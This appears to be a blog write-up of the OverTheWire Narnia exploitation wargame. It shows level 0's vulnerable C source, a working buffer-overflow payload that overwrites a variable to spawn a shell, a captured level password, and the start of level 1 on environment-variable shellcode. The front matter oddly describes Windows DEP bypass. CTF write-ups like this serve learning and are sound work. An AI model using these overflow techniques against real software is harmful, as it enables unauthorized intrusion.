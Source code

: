 ```yaml
---
layout: post
title:  Wargame Write-up OverTheWire Narnia
author: Clarissa Podell
date:   2018-09-01
description: Article on bypassing data execution prevention in Windows 10
excerpt: Article on bypassing data execution prevention in Windows 10
comments: false
mathjax: false
toc: true
last_modified_at: 2017-03-09T13:01:27-05:00
categories:
   - linux
   - wargame/ctf
tags:
   - linux
   - wargame/ctf
   - exploit
---
```


# Introduction to Narnia

What follows below is the original description of narnia, copied from intruded.net:

> Summary:
Difficulty:     2/10
Levels:         10
Platform:   Linux/x86
Description:
This wargame is for the ones that want to learn basic exploitation. You can see the most
common bugs in this game and we've tried to make them easy to exploit. You'll get the
source code of each level to make it easier for you to spot the vuln and abuse it. The
difficulty of the game is somewhere between Leviathan and Behemoth, but some of the
levels could be quite tricky.

Narnia’s levels are called narnia0, narnia1, … etc. and can be accessed on narnia.labs.overthewire.org through SSH on port 2226.

Data for the levels can be found in /narnia/.

SSH Information
Host: narnia.labs.overthewire.org
Port: 2226

```
clarissa@ubuntu:~$ ssh narnia0@narnia.labs.overthewire.org -p 2226
```

## Level 0

To login to the first level use:
Username: narnia0
Password: narnia0

narnia0@narnia:~$ cd /narnia/
narnia0@narnia:/narnia$ ls
narnia0    narnia1    narnia2    narnia3    narnia4    narnia5    narnia6    narnia7    narnia8
narnia0.c  narnia1.c  narnia2.c  narnia3.c  narnia4.c  narnia5.c  narnia6.c  narnia7.c  narnia8.c

```c
narnia0@narnia:/narnia$ cat narnia0.c
#include <stdio.h>
#include <stdlib.h>

int main(){
	long val=0x41414141;
	char buf[20];

	printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
	printf("Here is your chance: ");
	scanf("%24s",&buf);

	printf("buf: %s\n",buf);
	printf("val: 0x%08x\n",val);

	if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
		system("/bin/sh");
    }
	else {
		printf("WAY OFF!!!!\n");
		exit(1);
	}

	return 0;
}
```

to keep shell open. The trick is to append the cat command to the input

cat /etc/narnia_pass/narnia1
efeidiedae

20 characters plus a further 4 is enough to change val. Let's write in the correct value, reversed of course because of the endian notation.


```bash
narnia0@narnia:/narnia$ python -c 'print "A"*20 + "\xef\xbe\xad\xde"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�
val: 0xdeadbeef
```

Correct answer but no shell ?!?

```bash
narnia0@narnia:/narnia$ (python -c 'print "A"*20 + "\xef\xbe\xad\xde"'; cat) | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�
val: 0xdeadbeef
whoami
narnia1
cat /etc/narnia_pass/narnia1
efeidiedae

```

## Level 1

ENV VAR, SHELLCODE INJ

```c
narnia1@narnia:/narnia$ cat narnia1.c
#include <stdio.h>

int main(){
	int (*ret)();

	if(getenv("EGG")==NULL){    
		printf("Give me something to execute at the env-variable EGG\n");
		exit(1);
	}

	printf("Trying to execute EGG!\n");
	ret = getenv("EGG");
	ret();

	return 0;
}
```
